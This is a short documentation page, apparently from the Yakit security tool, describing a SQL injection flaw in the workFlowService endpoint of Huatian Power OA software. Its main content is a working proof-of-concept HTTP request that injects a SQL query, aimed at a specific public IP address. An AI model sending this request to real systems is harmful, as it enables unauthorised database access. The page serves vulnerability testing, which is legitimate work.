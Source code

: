 ```yaml
---
sidebar_position: 22
---
```

# 华天动力OA插件使用

## 1 workFlowService SQL注入漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

测试网站构造恶意请求包发送

```go
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 59.110.226.118
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

查看响应包，确认漏洞

![](/img/products/yakit/HTDLOA-1.png)